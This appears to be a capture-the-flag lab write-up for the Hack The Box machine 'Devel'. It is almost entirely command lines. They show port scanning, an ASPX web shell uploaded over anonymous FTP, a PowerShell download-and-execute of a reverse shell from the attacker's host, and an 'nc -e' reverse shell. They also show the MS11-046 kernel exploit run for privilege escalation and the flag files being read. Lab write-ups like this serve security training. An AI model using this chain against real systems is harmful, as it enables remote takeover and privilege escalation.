





# Devel

## Scanning
```bash
sudo nmap -p- -sS --open -vvv --min-rate 5000 10.10.10.5 -n -Pn -oG allPorts
nmap -sC -sV -p 21,80 -Pn -n 10.10.10.5 -oN targeted
```


## ftp anonymous 

```bash
cp /usr/share/SecLists/Web-Shells/FuzzDB/cmd.aspx .
ftp 10.10.10.5
```


put cmd.aspx



#### our machine
```bash
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1

sudo python3 -m http.server 80
```

#### victim machine
we enter in http://10.10.10.5/cmd.aspx
```bash
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.27/Invoke-PowerShellTcp.ps1')
```


https://www.exploit-db.com/exploits/40564

we search in google "6.1.7600 N/A Build 7600 exploit"



https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS11-046

```bash
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS11-046/ms11-046.exe

cp /usr/share/windows-resources/binaries/nc.exe .
ftp 10.10.10.5
binary
put ms11-046.exe
put nc.exe
```

in powershell
```
./nc.exe -e 10.10.14.27 4444
```

in our machine
```
nc -lvp 4444
```
now we have a cmd shell
```
cd C:\inetpub\wwwroot
.\ms11-046.exe
```

### flags
```cmd
type C:\Users\babis\Desktop\user.txt.txt
type C:\Users\Administrator\Desktop\root.txt.txt
```